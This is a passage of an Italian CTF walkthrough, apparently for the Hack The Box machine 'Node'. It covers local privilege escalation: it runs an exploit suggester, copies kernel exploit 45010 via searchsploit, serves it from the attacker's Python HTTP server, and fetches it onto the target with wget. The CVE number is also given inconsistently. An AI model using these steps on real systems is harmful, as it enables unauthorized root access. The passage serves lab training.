 Gli diamo i permessi ed eseguiamo

```
tom@node:/tmp$ chmod +x linux-exploit-suggester-2.pl
tom@node:/tmp$ ./linux-exploit-suggester-2.pl

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 4.4.0
  Searching 72 exploits...

  Possible Exploits
  [1] af_packet
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] get_rekt
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010

```


Ci da 3 possibili exploit, ci concentreremo sulla CVE-2017-16695

```
┌──(root㉿kali)-[~kali/htb/node]
└─# searchsploit -m 45010
  Exploit: Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/45010
     Path: /usr/share/exploitdb/exploits/linux/local/45010.c
    Codes: CVE-2017-16995
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/htb/node/45010.c
```

e la copiamo sulla macchina target tirando su un server python 

```bash
┌──(root㉿kali)-[~kali/htb/node]
└─# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.58 - - [07/Jul/2023 08:50:56] "GET /45010.c HTTP/1.1" 200 -
```

 e scaricandola con wget

```bash
tom@node:/tmp$ wget http://10.10.14.9:8000/45010.c
--2023-07-07 13:51:03--  http://10.10.14.9:8000/45010.c
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13176 (13K) [text/x-csrc]
Saving to: ‘45010.c’

45010.c             100%[===================>]  12.87K  --.-KB/s    in 0.01s

2023-07-07 13:51:03 (1.05 MB/s) - ‘45010.c’ saved [13176/13176]

```
